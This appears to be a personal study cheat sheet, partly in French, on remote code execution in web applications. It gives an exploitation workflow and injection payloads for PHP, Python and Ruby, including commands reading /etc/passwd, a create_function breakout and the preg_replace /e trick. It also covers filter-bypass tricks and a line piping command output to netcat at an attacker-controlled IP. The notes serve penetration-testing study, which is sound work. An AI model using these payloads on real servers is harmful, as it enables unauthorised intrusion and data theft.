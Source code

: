 # RCE

## Principe

* J'ignore si l'abréviation RCE correspond à _Remote Code Execution_ ou _Remote Command Execution_, les deux étaient utilisés pour le même genre de failles dans le cours.
* Possibilité d'exécuter des commandes de l'OS sur le serveur.

## Workflow

1. Discover on which language the server runs \(python, php, ruby, etc\), and if possible which version
2. Try to break the input by inserting a `'` or an `"`
3. Try to reconstruct it after the break with just simple text
4. In function of the language, try to run a simple OS command in lieu of the dummy text
5. Construct the final payload

## Language specifics to run commands

* PHP
  * `system("command")`
* Python
  * os.system\("command"\) and variants
  * Do that inside an `str()`
  * If you need to import os.system, use this function in str\(\) : `__import__('os').system(...)`
* Ruby
  * `command`

## General tips & trick

* A basic OS command for test is `uname` \(but i suppose it would work only on a linux system\)
* Si le résultat n'est pas reflété, utiliser à la place `sleep 10` pour voir si la commande a bien été injectée
  * To send back result when it's not reflected, simply pipe it to nc : `whoami | nc <ip> <port>` \(given that the remote server has nc of course\)
* When your payload is included inside a string, **use concatenation** : `" . system('cat /etc/passwd') ."`
* Don't forget to **urlencode**
* If some characters seems to be sanitized when the request first arrive, try to base64 encode them. Since the code you inject is executed, you can make the server decode it the moments it uses it.
* Bypass sanitation :
  * If the `/` is sanitize, you can usually get it by echoing the home directory `echo $HOME`
  * Si un autre caractère est sanitize et qu'il existe dans une variable d'env, on peut faire ça :
    * `echo ${ENV:13:1}` Le 1er nombre étant la position du char et le second le nombre à récupérer. Remplacer ENV par le nom de var d'env bien sûr
  * On peut aussi utiliser `printf "\x41"` en remplacer 41 par le nombre hexa correspondant

## PHP specific tips and tricks

* If you've got input reflected into the html page, try to inject `<?php phpinfo(); ?>`
* Try to get warnings instead of errors as they won't stop the execution flow
* PHP source code is available, which is useful to see how you can break out of a function
* In php, dev usually sort either by using sql's `order by` or php's `usort`. And in usort, they often used a function created with `create_function` \(however it's now deprecated\)
  * In an example using usort and then create\_function, the easiest is to try and break out create\_function, even more so since we can have it's source code. This is the pentesterlab payload that would break it \(Essential - Code Execution 2\) : `?order=id);}system('cat /etc/passwd');//`. I thinks that stems from the fact that it's used in a `sprintf` as a `%s`.
* It's been deprecated in 5.5 and removed in 7, but you could use the regex modifier `/e` to make `preg_replace` evaluate the replacement before using it :  `www.example.com/?replacement=phpinfo()&pattern=/hello/e&base=hello`

## Sources

* [Owasp testing guide v4](https://owasp.org/www-project-web-security-testing-guide/assets/archive/OWASP_Testing_Guide_v4.pdf)
* PwnFunction's [video](https://www.youtube.com/watch?v=jkJWA_CWrQs)
* Misc Research


